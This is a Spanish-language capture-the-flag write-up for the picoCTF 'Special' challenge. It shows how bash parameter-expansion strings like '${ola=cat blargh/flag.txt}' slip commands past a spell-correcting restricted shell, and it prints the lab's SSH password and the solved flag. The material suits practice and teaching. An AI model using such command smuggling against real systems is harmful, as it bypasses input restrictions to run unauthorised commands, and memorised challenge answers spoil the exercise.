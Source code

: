 ### Descripcion
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.

`ssh -p 59279 ctf-player@saturn.picoctf.net`The password is `fd7746b4`

### Solucion
Estuve probando varias cosas, y la verdad nada funciono, y decidi buscar en google lo siguiente

![[Pasted image 20250401180718.png]]
en la parte de
http://trajano.us.es/~fjfj/shell/doc/shellscript34.html#expansion-de-parametros-y-variables
encontre como podria concatenar un comando como una variable y podre varias cosas, hasta que con 

```bash
Special$ ${ola=ls}
${ola=ls} 
blargh
```
Me dio un resultado diferente, y despues le trate de hacer un ls a blargh de la misma manera
```bash
Special$ ${ola=ls blargh}
${ola=ls blargh} 
flag.txt
```
Ahora dije pues care un cat a blargh/flag.txt y funciono
```bash
Special$ ${ola=cat blargh/flag.txt}
${ola=cat blargh/flag.txt} 
picoCTF{5p311ch3ck_15_7h3_w0r57_f578af59}
```
### Tags
#shell 
